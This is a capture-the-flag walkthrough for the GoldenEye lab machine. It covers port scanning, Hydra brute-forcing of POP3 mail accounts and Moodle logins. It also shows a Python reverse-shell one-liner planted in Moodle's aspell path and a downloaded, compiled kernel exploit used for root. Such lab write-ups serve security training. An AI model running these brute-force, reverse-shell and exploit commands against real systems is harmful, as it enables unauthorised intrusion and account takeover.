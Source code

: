 # Intro & Enumeration
## This room will be a guided challenge to hack the James Bond styled box and get root.
### Use nmap to scan the network for all ports. How many ports are open?
```bash
nmap -p- -Pn <IP>
```
- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

![SCREEN01](https://github.com/user-attachments/assets/f34b7e5d-dac3-42dc-8281-8948140eb645)

### Who needs to make sure they update their default password?

1. Go to the <IP>:80 site
2. Right click -> 'View Page Source'
3. In `view-source:http://<IP>/` go to `terminal.js`

![SCREEN02](https://github.com/user-attachments/assets/5db05da9-533f-44c4-b853-a6b3db6e7b89)

5. In `view-source:http://<IP>/terminal.js` we can see some interesting comments

![SCREEN03](https://github.com/user-attachments/assets/5b1964b2-4998-4662-8012-a9d78de5b390)

### Whats their password?
We can decode encoded password using [CyberChief](https://gchq.github.io/CyberChef/), and selecting '**From HTML Entity**'

# Its mail time...
## Onto the next steps
### If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? Whats their new password?
Hint: pop3
1. Let's check the previously unknown ports for more information. We can see that port 55007 is for pop3
```bash
nmap -p 55006,55007 -sV <IP>
```
- `-p `: Allow us to scan selected ports
- `-sV`: Probes ports to determine service/version info

![SCREEN04](https://github.com/user-attachments/assets/4851ce8c-adf2-4445-8b55-3c0b324be1df)

2. Unfortunately previous credentials do not work
```bash
telnet <IP> 55007
USER boris
PASS I**r
```

![SCREEN05](https://github.com/user-attachments/assets/dfc1e445-e954-4ee6-9d82-5dfbdd465575)

3. So we go with the hydra:
```bash
hydra -l boris -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
- `-l`: Single username specification
- `-P`: Password list file path
- `-s`: Port specification

![SCREEN06](https://github.com/user-attachments/assets/f41d0571-bd66-4f8e-af6a-c1b418345abf)

### What can you find on this service?

The answer is: `emails`

1. We can login with newly acquired password, and look through the messages
```bash
telnet <IP> 55007
USER boris
PASS s**!
LIST
RETR 1
RETR 2
RETR 3
QUIT
```
2. From message number 2 we can see that Boris was messaging with Natalya - so this will be our next target
```bash
hydra -l natalya -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
![SCREEN07](https://github.com/user-attachments/assets/c6b83f8f-24cb-42c0-8919-8dcc9ebfe7b0)

3. Let's login to Natalya account. In second email we can find credentials for new student - xenia
```bash
telnet <IP> 55007
USER natalya
PASS b**d
LIST
RETR 1
RETR 2
```

![SCREEN08](https://github.com/user-attachments/assets/78d52198-479a-4719-b6a9-a939aa34dc8a)

### What user can break Boris codes?
We can find answer in second message for Boris and first for Natalya
![SCREEN09](https://github.com/user-attachments/assets/131cb6e7-6c8f-4a7b-a25f-9df6792e7c56)
![SCREEN10](https://github.com/user-attachments/assets/8f9ce12f-8f77-4ca6-884e-81161967d537)

# GoldenEye Operators Training
## Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

### Try using credentials you found earlier. Which user can you login as?
It's the last one we have found `xenia:R**!`

### Have a poke around this site. What other users can you find?
We can find [message](http://severnaya-station.com/gnocertdir/message/index.php?viewing=unread&user2=5) from Dr. Doak

![SCREEN11](https://github.com/user-attachments/assets/e5a4ca76-eca9-4507-a7be-66c967867069)

### What was this user password?
We go back to hydra:
```bash
hydra -l doak -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
![SCREEN12](https://github.com/user-attachments/assets/8de7680f-10e1-4978-bd37-6006a22e746c)

### What is the next user you can find from doak?
### What is the users password?
After login to pop3 in first email has them in plaintext:
```bash
telnet <IP> 55007
USER doak
PASS g**t
LIST
RETR 1
```
user and password `dr_doak:4**!`

![SCREEN13](https://github.com/user-attachments/assets/ff251acc-4ae0-4f77-bad7-975fd192a184)

# Privilege Escalation
##  Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

### Whats the kernel version?
Hint: Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and 'spell check it'.

1. Set listener with netcat:
```bash
nc -lvnp 1234
```
- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: Skip DNS lookup
- `-p`: Specify the port number to listen on

2. Login to moodle with admin credentials `admin:x**!` from image, and search for '[spell](http://severnaya-station.com/gnocertdir/admin/search.php?query=spell)'. Change 'Spell engine' to 'PSpellShell' and put the below script into 'path to aspell':
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
![SCREEN17](https://github.com/user-attachments/assets/bc6cf2b7-97ce-44b8-8767-08a0b8084a1c)

3. Now when activate spellcheck on [some text](http://severnaya-station.com/gnocertdir/mod/forum/post.php?forum=1) to get reverse shell

Once we are in:
```bash
uname -a
```
- `-a`: Displays all system information that `uname` can provide

![SCREEN14](https://github.com/user-attachments/assets/8b50efa4-41aa-4073-95ef-be5b00d4370b)

### What is the root flag?
1. Run to enable sending files:
```bash
python -m SimpleHTTPServer 1337
```

2. We need to modify 143 line of the [37292](https://www.exploit-db.com/exploits/37292) to look like this

![SCREEN15](https://github.com/user-attachments/assets/ebff44ae-de90-4d99-99e6-b3e9daed0a0f)

```bash
wget <IP>:<PORT>/37292.c
```
```bash
cc 37292.c -o exploit
```
```bash
./exploit
```
```bash
cat /root/.flag.txt
```
![SCREEN16](https://github.com/user-attachments/assets/e7403cca-5bcb-4316-b043-1c312140bc51)
